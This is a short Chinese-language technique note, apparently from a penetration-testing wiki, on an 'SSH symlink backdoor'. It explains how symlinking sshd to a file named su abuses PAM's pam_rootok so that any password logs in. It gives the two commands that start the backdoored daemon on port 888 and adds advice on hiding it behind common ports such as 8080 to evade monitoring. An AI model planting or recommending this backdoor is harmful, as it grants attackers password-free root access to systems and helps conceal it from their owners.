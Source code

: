 ```yaml
---
title: SSH 软连接后门
id: zhfly3486
---
```


# SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息（su），然而su在pam_rootok只检测uid 0即可认证成功，这样就导致了可以使用任意密码登录。

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888 
```

![image](../img/bfef694471a2b8c7012305bc6792054c.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。